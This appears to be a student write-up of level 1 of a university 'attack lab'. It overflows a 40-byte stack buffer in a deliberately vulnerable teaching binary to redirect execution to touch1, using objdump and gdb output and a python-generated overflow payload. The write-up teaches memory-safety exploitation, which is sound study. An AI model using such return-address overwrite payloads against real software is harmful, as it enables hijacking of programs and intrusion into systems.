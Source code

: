 ### Level 1

Looking at the instructions for level 1, we can see that we need to control the
return value of `test` such that instead of executing the `printf` (which
indicates a failure), we want to jump to `touch1`:

```c
void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

First off, dump the disassembly so we can take a closer look:

```shell
$ objdump -M intel -d ctarget > dumper.asm
```

Now take a look at the output and find `touch1`:

```asm
00000000004017c0 <touch1>:
  4017c0:       48 83 ec 08             sub    rsp,0x8
  4017c4:       c7 05 0e 2d 20 00 01    mov    DWORD PTR [rip+0x202d0e],0x1        # 6044dc <vlevel>
  4017cb:       00 00 00
  4017ce:       bf c5 30 40 00          mov    edi,0x4030c5
  4017d3:       e8 e8 f4 ff ff          call   400cc0 <puts@plt>
  4017d8:       bf 01 00 00 00          mov    edi,0x1
  4017dd:       e8 ab 04 00 00          call   401c8d <validate>
  4017e2:       bf 00 00 00 00          mov    edi,0x0
  4017e7:       e8 54 f6 ff ff          call   400e40 <exit@plt>
```

We can see that the address of `touch1` is `0x4017c0`, so what we need to do
is cause a buffer overflow such that the saved rip in `test` is overwritten to
the value `0x4017c0`.

We are told that `Gets` does not check the size of the buffer to ensure that
the contents it is going to write will not overflow. We are also told the
`BUFFER_SIZE` is a compile-time constant indicating the size of the buffer to
which our input will be written. We can see it in use in `getbuf`:

```c
unsigned getbuf()
{
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}
```

In order to figure out the size of `BUFFER_SIZE`, we can look at the beginning
of the disassembly of `getbuf`:

```asm
00000000004017a8 <getbuf>:
  4017a8:       48 83 ec 28             sub    rsp,0x28
  4017ac:       48 89 e7                mov    rdi,rsp
  4017af:       e8 8c 02 00 00          call   401a40 <Gets>
```

`0x28` is is being subtracted from `rsp` to make room for the local variables
(of which there are only one), and `0x28` is `40` in decimal. Therefore it
looks like our buffer size is 40 (which includes the final null byte to signal
the end of the buffer). To test that, we can send in 39 characters of
output and then 40 characters of output - 39 should be fine, 40 should cause an
error:

```shell
$ ./ctarget -q -i <(python -c "print 'A'*39")
Cookie: 0x59b997fa
No exploit.  Getbuf returned 0x1
Normal return

$ ./ctarget -q -i <(python -c "print 'A'*40")
Cookie: 0x59b997fa
Oops!: You executed an illegal instruction
Better luck next time
FAIL: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:FAIL:0xffffffff:ctarget:0:41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
```

(As a side note, using 40 characters actually drops us into the middle of
`touch3`.) Therefore it looks like we fill the buffer with 40 characters,
followed by our target address (in little endian, so `c0 17 40`).

To get a visual for what is happening on the stack, we can use `gdb` to inspect
the stack in `getbuf` after feeding in 40 A's and 4 B's:

```text
$ python -c 'print "A"*40 + "B"*4' > payload
$ gdb ctarget
$ gdb -q ctarget
(gdb) b *0x04017b4
Breakpoint 1 at 0x4017b4: file buf.c, line 16.
(gdb) run -q -i payload
Starting program: /tmp/bomb/target1/ctarget -q -i payload
Cookie: 0x59b997fa

Breakpoint 1, getbuf () at buf.c:16
16	buf.c: No such file or directory.
(gdb) info frame
Stack level 0, frame at 0x5561dca8:
 rip = 0x4017b4 in getbuf (buf.c:16); saved rip = 0x42424242
 called by frame at 0x5561dcb0
 source language c.
 Arglist at 0x5561dc70, args:
 Locals at 0x5561dc70, Previous frame's sp is 0x5561dca8
 Saved registers:
  rip at 0x5561dca0
```

We can see that the return pointer (`saved rip`) has been overwritten with our
four B's. We can also take a look at the stack (starting at `rsp`) and see our
buffer:

```text
(gdb) x/12x 0x5561dc78
0x5561dc78:	0x41414141	0x41414141	0x41414141	0x41414141
0x5561dc88:	0x41414141	0x41414141	0x41414141	0x41414141
0x5561dc98:	0x41414141	0x41414141	0x42424242	0x00000000
```

Therefore all we need to do is provide the (little endian) address to `touch1`:

```text
$ ./ctarget -q -i <(python -c "print 'A'*40 + '\xc0\x17\x40'")
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 C0 17 40
```
